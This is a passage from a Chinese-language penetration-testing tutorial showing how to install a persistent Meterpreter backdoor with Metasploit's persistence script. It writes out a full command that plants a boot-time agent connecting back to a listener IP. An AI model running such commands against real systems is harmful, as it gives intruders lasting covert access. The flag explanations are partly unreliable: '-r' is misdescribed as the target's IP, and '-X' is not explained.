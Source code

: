 ## Metasploit 持久后门

在这部分，我们将学习使用持久后门。这是一个在目标系统中安装后门服务的 Meterpreter 脚本。因此输入`run persistence -h`以显示可以与持久后门一起使用的所有命令。

![Metasploit 持久后门](img/3589_10_35.jpg)

在了解可用命令之后，输入`run persistence -A -L C:\\ -S -X -p 445 -i 10 -r 192.168.0.103`。

此语法中的命令解释如下：

+   `A`：自动启动 payload 处理程序

+   `L`：在目标主机上放置 payload 的位置

+   `S`：在系统启动时自动启动代理

+   `p`：用于监听反向连接的端口号

+   `i`：新连接的时间间隔

+   `r`：目标机器的 IP 地址

现在我们运行我们的持久后门脚本，如下截图所示：

![Metasploit 持久后门](img/3589_10_36.jpg)